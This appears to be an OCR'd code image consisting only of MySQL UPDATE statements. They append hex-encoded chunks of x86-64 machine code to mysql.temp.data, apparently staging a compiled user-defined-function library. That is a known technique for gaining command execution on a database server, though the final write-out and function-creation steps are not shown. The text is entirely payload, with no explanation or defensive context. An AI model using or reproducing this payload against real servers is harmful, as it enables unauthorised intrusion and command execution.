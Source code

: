 ```sql
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x4883ec08488b05dd2f00004885c07402ffd04883c408c3000000000000000000ff35e22f0000ff25e42f00000f1f4000ff25e22f00006800000000e9e0ffffff)
UPDATE mysql.temp SET data = concat(data, binary 0xff25b22f000066900000000000000000488d3dd12f0000488d05ca2f00004839f87415488b05762f00004885c07409ffe00f1f8000000000c30f1f8000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x488d3da12f0000488d359a2f00004829fe48c1fe034889f048c1e83f4801c648d1fe7414488b05452f00004885c07408ffe0660f1f440000c30f1f8000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x803d612f000000752f5548833d262f0000004889e5740c488b3d422f0000e85dffffffe868ffffffc605392f0000015dc30f1f8000000000c30f1f8000000000)
UPDATE mysql.temp SET data = concat(data, binary 0xe97bffffff554889e54883ec2048897df8488975f0488955e848894de0488b45f0488b4010488b004889c7e800ffffff4898c9c3554889e548897df8488975f0)
UPDATE mysql.temp SET data = concat(data, binary 0x488955e8488b45f08b0083f8017515488b45f0488b40088b0085c07507b800000000eb58488b45e848ba457870656374656448b92065786163746c7948891048)
UPDATE mysql.temp SET data = concat(data, binary 0x89480848be206f6e652073747248bf696e672074797065488970104889781848b920706172616d65744889482066c740286572c6402a00b8010000005dc30000)
UPDATE mysql.temp SET data = concat(data, binary 0x4883ec084883c408c300000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
UPDATE mysql.temp SET data = concat(data, binary 0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000)
```